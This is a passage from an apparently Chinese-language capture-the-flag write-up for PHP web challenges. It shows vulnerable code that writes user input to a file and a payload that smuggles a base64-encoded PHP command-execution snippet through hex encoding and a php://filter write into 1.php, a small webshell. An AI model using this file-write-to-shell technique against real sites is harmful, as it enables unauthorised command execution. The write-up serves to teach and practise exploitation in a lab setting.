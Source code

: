 ```
PD89YHRhYyAqYDs= //在进行hex编码
```

```
5044383959485268597941715944733d
```

这时我们发现 `3d`为等号

即v1=hex2bin  v2=00504438395948526859794171594473  v3=php://1.php

**payload**

```
POST:v1=hex2bin

?v2=00504438395948526859794171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
```

太妙了！！



### web103

```
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
}
else{
    die('hacker');
} 
```

过滤的更加多了，用上一题的思路也能解出来，我换一个吧

```
<?=`cat *`;
```

转化为base64

```
PD89YGNhdCAqYDs
```
